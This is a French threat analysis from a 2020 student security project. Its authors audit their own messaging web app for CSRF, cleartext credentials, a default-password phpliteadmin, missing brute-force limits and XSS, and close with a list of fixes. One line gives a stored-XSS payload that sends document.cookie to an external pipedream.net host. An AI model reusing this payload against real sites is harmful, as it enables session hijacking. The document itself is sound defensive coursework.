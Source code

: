 # STI — Analyse de menaces

* **Date** : 15.01.2020
* **Auteurs** : Nikolaos Garanis, Nemanja Pantic.

## Introduction

* CSRF sur tous les formulaires ainsi que les liens, on a reussi à
  * supprimer n'importe quel message (via son id)
    * en chargeant l'url /delete.php?delete=<id>
  * executer une requete http pour lire n'importe quel message via son id
    * /read.php?message=131, mais impossible de lire le contenu depuis le navigateur mais si l'attaquant sniff le reseau il pourra voir le contenu du message
  * envoyer un message
  * changer son mdp
  * administration
  * réponse aux messages
  * suppression des messages
* Credentials obtenable en faisant de l'écoute sur le réseau
  * Nous pouvons obtenir le cookie de session ainsi que le login et le password
  * N'importe qui peut donc usurper l'identité d'un compte sur le réseau
* XSS dans message avec
    ```html
    <script>fetch('https://enons72ccci9o.x.pipedream.net/c' + document.cookie)</script>
    ```
* pas d'injections SQL car PDO::prepare/execute sont utilisés.
* pas de protection contre le bruteforce de mdp
* mot de passe actuel non demandé lors du changement de mdp (possibilité de changé le mdp lors d'un vol de session)

* Fuzzing possible
  * On obtient des informations sur l'architecture du site
  * Surtout, on peut découvrir le dossier /extern qui contient le fichier phpliteadmin.php et ce dernier avait le mot de passe de base, nous avions donc accès à l'intégralité de la DB.

## À faire

* ~~hasher les mdp~~
* ~~enlever extern~~
* ~~demander le mdp actuel lors du changement de mdp~~
* ~~enlever les mdp trop simples~~
* ~~token csrf~~
* protection xss
* locker un compte si y'a trop d'essais ratés
